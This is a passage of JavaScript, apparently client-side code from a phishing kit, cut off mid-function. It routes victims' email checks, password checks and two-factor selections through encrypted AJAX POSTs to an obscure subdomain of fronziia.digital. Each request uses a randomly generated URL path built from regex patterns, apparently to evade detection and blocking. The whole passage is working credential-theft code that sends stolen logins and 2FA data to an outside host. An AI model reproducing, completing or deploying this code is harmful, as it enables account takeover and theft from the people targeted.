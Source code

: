 ```javascript
    return decrypted.toString(CryptoJS.enc.Utf8);
}

var sendAndReceive = (route, args, getresponse) => {
if(requestsent == true && route !== "twofaselect"){
return new Promise((resolve, reject) => {
return resolve({message: "waiting for previous request to complete"});
});
}
if(requestsent == false || route == "twofaselect"){
requestsent = true;
let routename = null;
let randpattern = null;
if(route == "checkemail"){
randpattern = /(pq|rs)[A-Za-z0-9]{6,18}(yz|12|34)[A-Za-z0-9]{2,7}(uv|wx)(3[1-9]|40)/gm;
}
if(route == "checkpass"){
randpattern = /(yz|12)[A-Za-z0-9]{7,14}(56|78)[A-Za-z0-9]{3,8}(op|qr)(4[1-9]|50)/gm;
}
if(route == "twofaselect"){
randpattern = /(56|78|90)[A-Za-z0-9]{8,16}(23|45|67)[A-Za-z0-9]{4,9}(st|uv)(5[1-9]|60)/gm;
}
if(route == "twofaselected"){
randpattern = /(23|45)[A-Za-z0-9]{9,20}(89|90|ab)[A-Za-z0-9]{5,10}(vw|xy)(6[1-9]|70)/gm;
if(currentreq){
currentreq.abort();
}
}
if(route == "pagevisit"){
randpattern = /(pq|rs)[A-Za-z0-9]{6,18}(yz|12|34)[A-Za-z0-9]{2,7}(uv|wx)(8[1-9]|90)/gm;
requestsent = false;
}
if(route == "missingtemplate"){
randpattern = /(pq|rs)[A-Za-z0-9]{6,18}(yz|12|34)[A-Za-z0-9]{2,7}(uv|wx)(9[1-9]|100)/gm;
requestsent = false;
}
let randexp = new RandExp(randpattern);
let randroute = randexp.gen();

let formattedargs = 0;
if(route == "checkemail"){
formattedargs = args.map(item => '/'+item).join('')+'/'+appnum+'/'+getresponse;
}
if(route !== "checkemail"){
formattedargs = '/'+token+args.map(item => '/'+item).join('')+'/'+getresponse;
}
// console.log(formattedargs);
let encrypteddata = encryptData(formattedargs);
const makeRequest = (retryCount) => {
    return new Promise((resolve, reject) => {
            currentreq = $.ajax({
                url: 'https://rJBmUQXjhwSvq6onCNpprI7lTSOVnaHAi8yXPZQL9XtNgsLTPKT.fronziia.digital/anUTVzUSwDygTziajkJgeRCVXASDCNRTNLOHVDBTIQGCVXH' + randroute,
                type: 'POST',
                data: {data: encrypteddata},
                success: function(response) {
                    if (response.message == "Token Not Found" && retryCount < 3) {
                    console.log('data: '+formattedargs);
                    setTimeout(function(){
                    resolve(makeRequest(retryCount + 1));
                    }, 3000);
                    }
                    if (response.message == "Missing Value") {
```